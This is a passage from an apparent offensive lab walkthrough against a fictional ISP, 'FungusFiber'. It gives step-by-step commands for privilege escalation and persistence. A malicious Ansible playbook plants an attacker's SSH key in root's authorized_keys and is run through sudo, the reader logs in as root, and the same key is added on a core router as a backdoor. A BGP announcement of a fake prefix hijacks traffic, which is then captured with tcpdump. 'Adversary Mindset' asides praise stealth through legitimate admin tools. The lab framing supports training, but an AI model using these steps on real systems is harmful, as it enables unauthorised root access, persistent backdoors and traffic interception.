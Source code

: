 Your Actions:

1.  Weaponise Ansible: You can run Ansible playbooks as root. Create a malicious playbook that adds your public SSH key to the root user's `authorized_keys` file.
    *   Create a file called `pwn.yml` in `/tmp/`:
        ```yaml
        - hosts: localhost
          become: yes
          tasks:
            - name: Install backdoor key
              ansible.builtin.lineinfile:
                path: /root/.ssh/authorized_keys
                line: "ssh-rsa AAAAB3NzaC1yc2E... attacker@kali"
                create: yes
                mode: '0600'
        ```
    *   Run the playbook as root:
        *   Command: `sudo /usr/bin/ansible-playbook /tmp/pwn.yml`

2.  Claim Your Prize: SSH into the management server as the root user.
    *   Command: `ssh -i id_rsa root@192.168.5.10`
    *   Verification: Your prompt is now `root@mgmt-server:~#`. You own the core management server.

Adversary Mindset: Abusing legitimate system administration tools is the ultimate stealth technique. It blends in perfectly with normal activity.

## Stage 6: Becoming the Network - Persistence & BGP Manipulation

Goal: To embed yourself deeply and manipulate the very fabric of FungusFiber's internet.

Your Actions:

1.  Establish Persistence: Add your SSH key to the `authorized_keys` file of the core router's admin user as well.
2.  BGP Hijacking (Lab Edition): From the router, announce a fictitious network to the rest of the lab.
    *   Command on Router:
        ```bash
        configure terminal
        router bgp 65001
        network 198.51.100.0 mask 255.255.255.0
        end
        ```
    *   Impact: You have now falsely told the entire lab network that you are the legitimate path for this block of IP addresses. Any traffic destined for them will be routed to you.

3.  Capture the Traffic: On your attacker machine, use `tcpdump` to watch the traffic for this fake network flow in.
    *   Command: `sudo tcpdump -nni eth0 net 198.51.100.0/24`
    *   Observation: You will see lab test traffic (pings, scans) arriving at your interface.

Adversary Mindset: Persistence is not just about access; it is about power. Controlling routing is the ultimate power in an ISP.
